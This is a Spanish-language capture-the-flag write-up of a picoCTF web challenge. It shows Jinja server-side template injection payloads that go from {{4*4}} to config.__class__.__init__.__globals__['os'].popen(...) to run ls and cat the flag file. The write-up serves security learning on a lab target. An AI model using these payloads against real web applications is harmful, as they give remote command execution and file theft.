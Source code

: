 ## Descripción :
	I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:53072/)!
## Solución :
 Primero confirme que la pagina dada estacha hecha con python usando el comando whatweb y sabiendo que python usa plantillas de jinja , intente probando una inyección de plantilla para ver si el sitio era vulnerable
 ```
 {{4*4}}
```
, como lo era entonces accedí a variables globales y estaba el 'os' entonces accedí al modulo os desde el ámbito global
```
{{ config.__class__.__init__.__globals__['os'] }}


{{ config.__class__.__init__.__globals__ }}

```

,  ahí utilice el comando 'popen' para poder ejecutar comandos shell donde use un ls para ver los archivos de os
 ```
 {{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
```
  , y le hice un cat al archivo bandera, asi obtuve la flag 
```
{{ config.__class__.__init__.__globals__['os'].popen('cat flag').read() }}

```
